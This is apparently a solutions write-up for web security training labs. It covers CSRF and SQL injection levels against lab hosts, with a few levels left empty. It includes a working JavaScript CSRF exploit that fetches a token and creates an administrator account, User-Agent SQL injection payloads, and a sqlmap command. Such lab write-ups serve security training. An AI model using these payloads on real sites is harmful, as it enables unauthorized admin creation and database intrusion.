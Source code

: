 ## Level 2
Same as above, but it triggers via an XSS.

## Level 3
GET of CSRF token first, and then submit
```html
<script type="text/javascript">
function addUser(token) {
    var url = "http://3.csrf.labs/add_user.php";
    var param = "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken=" + token; 
    var CSRF = new XMLHttpRequest();
    CSRF.open("POST",url,true);
    CSRF.withCredentials = 'true';
    CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    CSRF.send(param);
}
// Extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function() { 
    if (XHR.readyState == 4 ) {
        var htmlSource = XHR.responseText; // the source of users.php
        // Extract the token 
        var parser = new DOMParser().parseFromString(htmlSource, "text/html");
        var token = parser.getElementById('CSRFToken').value;
        addUser(token);
    }
}
XHR.open('GET', 'http://3.csrf.labs/users.php', true);
XHR.send();
```

## Level 4

## Level 5

# SQL Injection
## Level 1
Simple union. 
PoC:
```bash
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: ' UNION SELECT user(); -- -
```
SQLMap: 
```bash
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```
## Level 2
UNION and standard payloads like 1='1 are filterer.
PoC, False Blind:
```bash
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: \' or \'elscustom\'=\'elsFALSE
```
PoC, True Blind:
```bash
```